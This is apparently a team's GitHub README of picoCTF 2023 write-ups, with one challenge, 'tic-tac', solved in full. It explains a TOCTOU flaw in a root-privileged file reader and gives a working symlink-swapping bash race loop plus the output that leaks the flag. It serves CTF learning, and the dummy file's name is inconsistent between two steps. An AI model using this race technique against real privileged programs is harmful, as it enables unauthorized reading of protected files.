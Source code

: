# picoCTF2023-Writeups
A list of writeups from the 2023 PicoCTF hacking competition from team cvhs_exe.

(Follow this format pls)

<details open><summary>
	
### [Binary Exploitation](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#binary-exploitation):
	
</summary>
	
- [two-sum](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#two-sum)
- [babygame01](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#babygame01)
- [tic-tac](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#tic-tac)
- [VNE](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#vne)
- [hijacking](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#hijacking)
- [babygame02](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#babygame02)
- [two-sum](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#two-sum)
- [Horsetrack](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#horsetrack)

	
</details>


# Binary Exploit

(Add the stuff yall did as well)


## tic-tac
###  200 Points | Solved By TrooperZ
#### [View Question in Pico Gym](https://play.picoctf.org/practice/challenge/380?category=6&originalEvent=72&page=1)

AUTHOR: JUNIAS BONOU

### Description:

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

SSH to `saturn.picoctf.net`, port `[port provided by instance]`, and run the binary named `txtreader` once connected. Login as `ctf-player` with the password, `[password provided by instance]`

Tags: picoCTF 2023, Binary Exploitation, linux, bas, toctou

Hints: 
- None.

### Solution: 

Upon loading up to the ssh, we looked at 3 useful files with `ls`: 
```
flag.txt  src.cpp  txtreader
```

As expected, we didn't have access to `flag.txt`. `txtreader` didn't let us open it either, so we peeked in the source code provided.
```
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}

```

As said in the name and tags, there's a [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) vulnerability, where the file is opened before it checks for permissions when the file is read. This is easily exploitable through a handy dandy feature called [symbolic links](https://en.wikipedia.org/wiki/Symbolic_link). A symbolic link to a file is created with this command `ln -s [original file] [linked file]`. You may need to change `-s` to `-sf` to force it if the file exists.

Through this, we create our own file which we have permissions to read to with `echo OurFile > notflag.txt`. 

Then, we write a bash one-liner to create a link file and swap the linkage to the file between the flag and our dummy file. This way, we can change the ownership of the file right after it's opened and read into the memory of the program.
```
while true; do ln -sf flag.txt linky; ln -sf file.txt linky; done &
```

This will run in the background while we try to access the file. Now we have to read the file. To do so we simply run the `txtreader` repeatedly until it leaks the flag. 
```
for i in {1..30}; do ./txtreader linky; done 
```
You may have to run it a few times to get it to work.
```
...
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
OurFile
OurFile
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
OurFile
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_f482a247}
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
...
```
More info here: https://samsclass.info/127/proj/E10.htm





